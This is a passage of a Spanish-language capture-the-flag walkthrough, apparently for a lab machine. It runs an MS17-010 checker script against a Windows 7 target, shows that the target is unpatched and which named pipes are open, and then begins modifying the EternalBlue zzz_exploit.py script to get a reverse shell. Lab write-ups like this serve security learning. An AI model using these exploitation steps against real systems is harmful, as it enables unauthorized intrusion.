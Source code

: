```python
from mysmb import MYSMB
from impacket import smb, smbconnection, nt_errors
from impacket.uuid import uuidtup_to_bin
from impacket.dcerpc.v5.rpcrt import DCERPCException
from struct import pack
import sys

'''
Script for
- check target if MS17-010 is patched or not.
- find accessible named pipe
'''

USERNAME = 'guest'
PASSWORD = ''

NDR64Syntax = ('71710533-BEBA-4937-8319-B5DBEF9CCC36', '1.0')

MSRPC_UUID_BROWSER  = uuidtup_to_bin(('6BFFD098-A112-3610-9833-012892020162','0.0'))
MSRPC_UUID_SPOOLSS  = uuidtup_to_bin(('12345678-1234-ABCD-EF00-0123456789AB','1.0'))
MSRPC_UUID_NETLOGON = uuidtup_to_bin(('12345678-1234-ABCD-EF00-01234567CFFB','1.0'))
MSRPC_UUID_LSARPC   = uuidtup_to_bin(('12345778-1234-ABCD-EF00-0123456789AB','0.0'))
MSRPC_UUID_SAMR     = uuidtup_to_bin(('12345778-1234-ABCD-EF00-0123456789AC','1.0'))

```
<br>
Ejecutamos el script.

```
❯ python2 checker.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_OBJECT_NAME_NOT_FOUND
samr: Ok (64 bit)
netlogon: Ok (Bind context 1 rejected: provider_rejection; abstract_syntax_not_supported (this usually means the interface isn't listening on the given endpoint))
lsarpc: Ok (64 bit)
browser: Ok (64 bit)

```
<br>

¡Perfecto! En este momento ya podemos ejecutar el EternalBlue para ganar acceso.
<hr>
<h3 style="text-align:center;" id="script">MODIFICACION DEL SCRIPT</h3><br>

Antes de hacer uso del exploit vamos a modificar el script `zzz_exploit.py` para definir la forma en la que obtendremos una reverse shell.

1- Actualizamos la variable `Username` = `guest`.
